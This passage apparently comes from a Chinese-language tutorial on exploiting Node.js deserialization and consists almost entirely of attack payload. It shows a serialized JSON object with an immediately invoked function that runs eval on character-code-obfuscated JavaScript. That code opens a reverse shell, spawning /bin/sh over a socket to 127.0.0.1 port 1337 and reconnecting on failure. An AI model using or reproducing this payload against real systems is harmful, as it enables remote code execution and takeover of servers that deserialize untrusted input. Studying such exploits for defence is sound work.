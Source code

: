 ```
15,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,
41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,1
02,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,12
3,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68
,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,3
2,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,
46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,
101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,
40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,3
2,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

现在让我们生成序列化的有效内容，并在函数体后添加括号()。



```
`{`"rce":"_$$ND_FUNC$$_function ()`{`
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101
,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,1
12,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,1
08,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,1
0,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,3
4,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,1
05,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112
,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,
61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,
116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,
110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105
,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,1
10,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,
125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82
,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,6
1,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,3
2,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,7
9,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,3
2,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,11
2,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,
32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,
67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32
,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,
116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,10
0,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,3
2,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,1
12,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,
104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111
,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32
,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,
115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,3
2,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,
105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117
,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,11
5,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,
84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,
10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))`}`()"`}`
```
